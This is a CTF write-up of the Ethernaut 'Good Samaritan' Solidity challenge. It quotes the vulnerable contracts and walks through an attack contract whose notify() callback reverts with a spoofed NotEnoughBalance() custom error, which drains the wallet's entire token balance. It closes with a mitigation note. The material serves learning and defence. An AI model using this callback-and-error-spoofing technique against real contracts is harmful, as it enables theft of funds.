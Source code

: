 ```yaml
---
title: How Not To Use Custom Errors
date:  2022-11-07 12:30:06
author: Vishvesh
author_url: https://twitter.com/The_Str1d3r
mathjax: true
categories:
  - Blockchain
  - CTF-Writeups
tags:
  - "Ethereum"
  - "Solidity"

url : https://hackmd.io/Cyo2eYrKQPSvN3Zp8pga9g?view
mermaid: true
---
```

<html>
  <head>
    <script type="text/javascript" async
  src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.7/MathJax.js?config=TeX-MML-AM_CHTML">
    </script>


<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.1/MathJax.js?config=TeX-AMS_HTML">
  MathJax.Hub.Config({
    "HTML-CSS": {
      availableFonts: ["TeX"],
    },
    tex2jax: {
      inlineMath: [['$','$'],["\\(","\\)"]]},
      displayMath: [ ['$$','$$'], ['\[','\]'] ],
    TeX: {
      extensions: ["AMSmath.js", "AMSsymbols.js", "color.js"],
      equationNumbers: {
        autoNumber: "AMS"
      }
    },
    showProcessingMessages: false,
    messageStyle: "none",
    imageFont: null,
    "AssistiveMML": { disabled: true }
  });
</script>
</head>
</html>

------
# Good Samaritan

## Overview

This challenge focuses on a relatively new feature introduced recently in solidity known as custom errors used for better error handling. The challenge is comprised of 3 smart contracts 
- GoodSamaritan
- Coin
- Wallet

GoodSamaritian is the main contract we ned to exploit. It holds a million token intially and gives out 10 tokens to anyone who requests it, our goal is to drain the contract of all of its token.

---
Lets have a look at the this contract...

### GoodSamaritian

```solidity
contract GoodSamaritan {
    
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}
```

The constructor sets the wallet and coin contract deposits the tokens into the wallet.

The `requestDonation()` function calls a function in the wallet contract which transfers the requester 10 tokens but we see that if the error regarding balances is encounterd the wallet transfers all of its funds present in it. This is what we ned to execute to drain the walet of al tokens.

Lets have look at coin and then wallet contracts...

### Coin

```solidity
contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}
```

The constructor intializes the wallet with 1 million coins and we can see that the contract defines a custom error called `InsufficientBalance()`.

The transfer function is intresting, allthough it performs the standard addition and subtraction classic of any normal transfer function the next part is whats out of ordinary as it sends out a notification to the contract that `amount` money has been transferred.

This opens an attack vector for us as if we request via a contract it will pass `dest_.isContract()` check if we define a `notify()` function in our contract that will be called inside which we can take over control flow.

Now looking at wallet contract...

### Wallet

```solidity
contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}
```

This contract defines the donate10() function which checks if the wallet has enough balance else it reverts with the error NotEnoughBalance() this is the erro we need to execute to trigger the trasferRemainder() function declared in this contract which trnasfers all remaing wallet fund to the ***_dest*** address.

Also note both `donate10()` and `transferRemainder()` fucntions are guarded by the `onlyOwner()` modifer hence only the contract owner in this case the `GoodSamaritian` can call them.

## Constructing the exploit

Ok now all the contracts have been analyzed this gives us an idea on how to proceed further...

- First we need to request the `GoodSamaritian` contract, this will execute the `requestDonation()` function.
- This in turn calls the `donate10()` fucntion which checks for balance and as at this time the wallet will have enough balance it will pass the check.
- Next the `transfer()` fucntion will be called in `Coin` contract, this will transfer 10 coins to our contracts address but then the `notify()` fucntion will be called on our contract.
- We should have the `notify()` function defined in our contract and inside this we will exceute the revert with the error `NotEnoughBalance()`.
- This revert will then trigger the catch expression in `requestDonation()` with the error message as `NotEnoughBalance()`.
- This will pass the check for the custom error and finally the `transferRemainder()` function wil be called and all wallet funds will be transferred to our contract.

## Exploit

This will be the final exploit...

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{

    error NotEnoughBalance();

    GoodSamaritan goodsamaritan  = GoodSamaritan(_GoodSamaritianAddress); //ethernaut instance address
    
    function exploitGoodSamaritian() external {
        goodsamaritan.requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }
}
```

This contract is the attack contract.

- First we will call the `exploitGoodSamaritian()` function which will call the `requestDoantion(`) function and as this is the first time all checks pass and 10 coins will be trnasferrred and the `notif()` function will be called.
- Insdie notify we have declared the revert statement with desired error which will trigger the `tranferRemnainder()` function to be called.
- But one catch is while transferring the entire wallet funds again the same process happens and again `notify()` will be called this willl result in our transfer being repeatedly reverted.
- To counter that the check is put: `amount <= 10`, so that when the entire amount is transferred the revert statement is not executed.


## Mitigation

In order to avoid this instead of notifying in that manner maybe events can be used, the essential thing is not to give away control flow to an external party and then deciding critical (or for that manner any) contract functionality based upon any parameter that the external party could potentially tamper with.
